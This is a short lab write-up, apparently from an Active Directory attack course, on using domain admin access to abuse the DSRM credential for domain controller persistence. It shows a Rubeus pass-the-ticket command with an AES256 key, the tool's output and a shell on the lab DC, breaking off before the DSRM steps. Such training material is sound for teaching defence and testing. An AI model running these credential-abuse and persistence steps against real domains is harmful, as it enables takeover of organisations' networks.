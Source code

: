 # Learning Objective 11

## Tasks

1. **Use domain admin privileges obtained earlier to abuse the DSRM credential for persistence**

---

## Solution

1. **Use domain admin privileges obtained earlier to abuse the DSRM credential for persistence**

We can persist with administrative access to the DC once we have domain admin privileges **by abusing the DSRM administrator**.

Start a process with domain admin privileges using the following command.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : AN4IZTNA
[*] Domain          : SPYX2VGR
[*] Password        : ACNAK5ME
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 7144
[+] LUID            : 0x3dd20f

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
```

[172.16.2.1]: PS C:\Users\Administrator.DCORP-DC\Documents>